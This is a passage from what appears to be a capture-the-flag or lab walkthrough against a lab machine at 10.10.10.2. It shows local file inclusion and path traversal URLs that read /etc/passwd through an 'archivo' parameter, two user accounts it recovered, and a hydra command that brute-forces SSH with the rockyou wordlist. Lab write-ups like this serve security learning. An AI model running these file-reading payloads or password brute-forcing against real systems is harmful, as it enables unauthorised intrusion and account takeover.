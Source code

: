 ```bash
http://10.10.10.2/shop/index.php?archivo=/etc/passwd
```

```bash
http://10.10.10.2/shop/index.php?archivo=../../../../etc/passwd
```

_By adding 'index.php' at the end of the URL, the web server interprets that a PHP file in the root directory of the website is being accessed, and then the 'archivo' parameter is used to include the specified file in the URL._

![Image](../assets/img/post/littlepivoting/image-4.png)

**We found 2 users:**

seller:x:1000:1000:seller,,,:/home/seller:/bin/bash
manchi:x:1001:1001:manchi,,,:/home/manchi:/bin/bash

### Brute Force Attack | SSH

```bash
hydra -l manchi -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.2 -t  4
```

![Image](../assets/img/post/littlepivoting/image-5.png)

